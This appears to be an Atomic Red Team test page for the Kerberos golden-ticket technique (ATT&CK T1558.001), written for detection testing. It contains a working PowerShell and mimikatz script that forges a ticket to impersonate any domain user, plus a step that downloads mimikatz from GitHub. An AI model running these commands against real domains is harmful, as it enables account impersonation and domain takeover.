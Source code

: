 # T1558.001 - Golden Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/001)
<blockquote>Adversaries who have the KRBTGT account password hash may forge Kerberos ticket-granting tickets (TGT), also known as a golden ticket.(Citation: AdSecurity Kerberos GT Aug 2015) Golden tickets enable adversaries to generate authentication material for any account in Active Directory.(Citation: CERT-EU Golden Ticket Protection) 

Using a golden ticket, adversaries are then able to request ticket granting service (TGS) tickets, which enable access to specific resources. Golden tickets require adversaries to interact with the Key Distribution Center (KDC) in order to obtain TGS.(Citation: ADSecurity Detecting Forged Tickets)

The KDC service runs all on domain controllers that are part of an Active Directory domain. KRBTGT is the Kerberos Key Distribution Center (KDC) service account and is responsible for encrypting and signing all Kerberos tickets.(Citation: ADSecurity Kerberos and KRBTGT) The KRBTGT password hash may be obtained using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003) and privileged access to a domain controller.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Crafting golden tickets with mimikatz](#atomic-test-1---crafting-golden-tickets-with-mimikatz)


<br/>

## Atomic Test #1 - Crafting golden tickets with mimikatz
Once the hash of the special krbtgt user is retrieved it is possible to craft Kerberos Ticket Granting Ticket impersonating any user in the domain.
This test crafts a Golden Ticket and then performs an SMB request with it for the SYSVOL share, thus triggering a service ticket request (event ID 4769).
The generated ticket is injected in a new empty Windows session and discarded after, so it does not pollute the current Windows session.

**Supported Platforms:** Windows


**auto_generated_guid:** 9726592a-dabc-4d4d-81cd-44070008b3af





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_sid | SID of the targeted domain, if you keep default it will automatically get the current domain SID | string | S-1-5-21-DEFAULT|
| domain | Targeted domain FQDN | string | example.com|
| account | Account to impersonate | string | goldenticketfakeuser|
| krbtgt_aes256_key | Krbtgt AES256 key | string | b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9|
| mimikatz_path | Mimikatz windows executable | path | $env:TEMP&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Remove-Item $env:TEMP\golden.bat -ErrorAction Ignore
Remove-Item $env:TEMP\golden.txt -ErrorAction Ignore

# get current domain SID if default was used
$domain_sid = "#{domain_sid}"
If ($domain_sid -Match "DEFAULT") {
  # code from https://www.sevecek.com/EnglishPages/Lists/Posts/Post.aspx?ID=60
  $domain = gwmi Win32_ComputerSystem | Select -Expand Domain
  $krbtgtSID = (New-Object Security.Principal.NTAccount $domain\krbtgt).Translate([Security.Principal.SecurityIdentifier]).Value
  $domain_sid = $krbtgtSID.SubString(0, $krbtgtSID.LastIndexOf('-'))
}

# create batch file with commands to run in a separate "runas /netonly" session
# so we don't purge Kerberos ticket from the current Windows session
# its output goes to golden.txt temp file, because we cannot capture "runas /netonly" output otherwise
@"
>%TEMP%\golden.txt 2>&1 (
  echo Purge existing tickets and create golden ticket:
  klist purge
  #{mimikatz_path} "kerberos::golden /domain:#{domain} /sid:DOMAIN_SID /aes256:#{krbtgt_aes256_key} /user:#{account} /ptt" "exit"

  echo.
  echo Requesting SYSVOL:
  dir \\#{domain}\SYSVOL
  
  echo.
  echo Tickets after requesting SYSVOL:
  klist

  echo.
  echo End of Golden Ticket attack
)
"@ -Replace "DOMAIN_SID", $domain_sid | Out-File -Encoding OEM $env:TEMP\golden.bat

# run batch file in a new empty session (password and username do not matter)
echo "foo" | runas /netonly /user:fake "$env:TEMP\golden.bat" | Out-Null

# wait until the output file has logged the entire attack
do {
  Start-Sleep 1 # wait a bit so the output file has time to be created
  Get-Content -Path "$env:TEMP\golden.txt" -Wait | ForEach-Object {
    if ($_ -match 'End of Golden Ticket attack') { break } 
  }
} while ($false) # dummy loop so that 'break' can be used

# show output from new empty session
Get-Content $env:TEMP\golden.txt

# cleanup temp files
Remove-Item $env:TEMP\golden.bat -ErrorAction Ignore
Remove-Item $env:TEMP\golden.txt -ErrorAction Ignore
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip" -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>
